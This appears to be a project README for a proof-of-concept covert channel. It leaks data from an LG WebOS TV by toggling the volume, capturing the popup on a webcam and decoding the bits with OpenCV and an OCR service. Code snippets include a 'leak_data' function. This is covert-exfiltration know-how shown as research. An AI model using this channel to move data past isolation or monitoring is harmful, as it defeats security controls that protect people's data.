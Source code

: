 # TV-Air-Gap
LG WebOS TV air gap communication using a camera and volume buttons.

This project is a poc of semi-airgap communication using a tv and a web cam.
The idea is to transfer data from a tv to a third party computer by changing the volume on the tv and processing the changes using the web cam.

In LG WebOS TVs, when a volume up \ down button is pressed, a circle pop up is shown with the new volume status.
With this popup, we can transmit information by encoding a message to binary format and changing the volume to 0 / 1 in order to represent the bits.

To control the tv volume I used pywebostv - a wrapper libraray of lg web os client.

The connection to tv is simple:

```
def connect_to_tv():
    """
    Connect to WebOS TV
    :return: client
    """
    client = WebOSClient(TV_IP)
    client.connect()
    store = {}

    for status in client.register(store):
        if status == WebOSClient.PROMPTED:
            print("Please accept the connect on the TV!")
        elif status == WebOSClient.REGISTERED:
            print("Registration successful!")

    return client
```

And afterwards the data trasmiting is very straight forward:

```
def leak_data(client, data):
    """
    Leak data over tv
    :param client: client tv
    :param data: data to leak
    """
    media = MediaControl(client)
    bits = to_bits(data)

    for bit in bits:
        media.set_volume(2)
        media.set_volume(bit)
        sleep(2)
```

Before every volume change, we set the volume to a different number (in this case 2) because if the volume is changed to the same number, there will be no pop up.
We also sleep for 2 seconds to wait for the pop up to dismiss.

After We have a video with all the bits represnted as volume changes, We can now split the video to frames every second.
We are splitting the video every second to get a backup for each frame in case that any future frame process will fail.

After having all the bits frames, We will use OpenCv Hough circles to detect and cut the volume circle.
For any frame that will fail, we will use the backup frame and hope for good.

```
circles = cv2.HoughCircles(image, cv2.HOUGH_GRADIENT, 1.2, 100)
```

Now we have all the bits volume circles, and we need to exctract each bit from them.
For that we will use FreeOcrApi Engine2 (for numbers):

```
payload = {'isOverlayRequired': overlay,
               'apikey': api_key,
               'language': language,
               'OCREngine': 2,
               'detectOrientation': True
               }

    with open(filename, 'rb') as f:
        r = requests.post('https://api.ocr.space/parse/image',
                          files={filename: f},
                          data=payload,
                          )

    return json.loads(r.content.decode())['ParsedResults'][0]['ParsedText']
```

We will do that for every circle and the result will be a list of bits.
We can now decode the bits back to a string and we are done!

Wrapping all of that up:

```

# Tv leak part (nead to be captured by a video)
tv_client = connect_to_tv()
leak_data(tv_client, "Hey")

#########################################################
In this part we assume that the video is on the computer
#########################################################

split_to_frames()
detect_frames()
result = detect_bits()
print(from_bits(result))
```

POC example:

The Result bits circle after detecting the circles:

![Cirlces](https://raw.githubusercontent.com/TalSaadi/TV-Air-Gap/master/circles.JPG)

Detecting the bits and decoding the message:

![Bits](https://raw.githubusercontent.com/TalSaadi/TV-Air-Gap/master/bits.JPG)
